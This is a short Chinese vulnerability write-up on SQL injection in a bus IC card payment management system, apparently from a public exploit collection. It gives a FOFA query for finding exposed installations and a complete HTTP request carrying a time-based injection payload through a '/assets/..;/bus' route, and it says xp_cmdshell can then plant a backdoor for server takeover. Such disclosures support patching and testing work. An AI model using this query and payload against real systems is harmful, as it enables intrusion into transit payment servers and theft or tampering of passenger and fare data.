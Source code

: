 # 公交IC卡收单管理系统bus存在SQL注入漏洞

# 一、漏洞简介
公交IC卡收单管理系统是城市公共交通领域中不可或缺的一部分，它通过集成先进的集成电路技术（IC卡）实现了乘客便捷的支付方式，并有效提高了公共交通运营效率。系统集成了发卡、充值、消费、数据采集、查询和注销等多个功能模块，为公交公司和乘客提供了全面、高效、便捷的公共交通支付解决方案。该系统不仅提升了乘客的出行体验，还降低了公交公司的运营成本，提高了管理效率。公交IC卡收单管理系统bus存在SQL注入漏洞。经过身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

# 二、影响版本
+ 公交IC卡收单管理系统

# 三、资产测绘
+ fofa`app="公交IC卡收单管理系统"`
+ 特征

![1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5.png](./img/giAq65h_S8s7uRND/1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5-534614.png)

# 四、漏洞复现
```java
POST /assets/..;/bus HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 
_search=false&nd=1727248354972&rowCountPerPage=10&pageNo=1&sidx=BUS_CODE&sord=asc&method=select&BUS_CODE=1');WAITFOR DELAY '0:0:5'--
```

![1727274271656-6a16a890-34ae-4997-bf7e-9dca4dfa13fe.png](./img/giAq65h_S8s7uRND/1727274271656-6a16a890-34ae-4997-bf7e-9dca4dfa13fe-448402.png)



> 更新: 2024-10-22 09:36:09  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rs9z40892wvgac14>